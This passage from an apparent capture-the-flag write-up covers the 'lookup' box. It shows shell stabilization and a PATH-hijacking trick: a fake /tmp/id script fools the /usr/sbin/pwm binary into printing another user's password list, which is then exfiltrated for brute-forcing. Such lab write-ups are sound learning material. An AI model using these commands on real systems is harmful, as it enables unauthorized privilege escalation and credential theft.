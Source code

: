 
> Pro-Tipp: If you need the shell to be more, lets say usable you can stabilize the shell:
> ```bash
> python3 -c 'import pty;pty.spawn("/bin/bash")'
> export TERM=xterm
> ```
> 


Sadly there seems not to be a binary which could be used to obtain root access. But still, there is one suspicious executable file:
`/usr/sbin/pwm`.

{{<figure-dynamic
light-src="/images/lookup/light/pwm.png"
dark-src="/images/lookup/dark/pwm.png"
>}}

So this is interesting, because on the home directory of user `think`, there was actually a file named `.passwords`.
If we get the executable to read `/home/think/.passwords`, instead of the not existing `/home/www-data/.passwords`, we can read the file content.
The executable is using the command `id` to get the username.

I ran `strings` command on it, to find out whether it uses a relative or absolute path to `id` command.
But sadly the call for `id` was not in the output. Next check then!

```bash
strace -e trace=process /usr/sbin/pwm
```


This reveals no path to `id` which indicates that the command is called relativly.
If a command is called 'relativly' this means, that the location of the command is checked from the `PATH` environment.
I then create a own script called `id` on the `/tmp` path and add that to my `PATH` export.
It is importend for us, that the `/tmp` directory is located at the first place in the `PATH` environment.

```bash
echo '#!/bin/bash' > /tmp/id
echo "echo 'uid=33(think) gid=33(think) groups=33(think)'" >> /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
```


After that, I changed to the `tmp` directory and run the executable:

{{<figure-dynamic
light-src="/images/lookup/light/passwords.png"
dark-src="/images/lookup/dark/passwords.png"
>}}

Yes, a wordlist to bruteforce `think` user. I know, not very realistic, but it is a easy box.
I redirected the output of the executable to a file and start a http server to download it to my local machine.
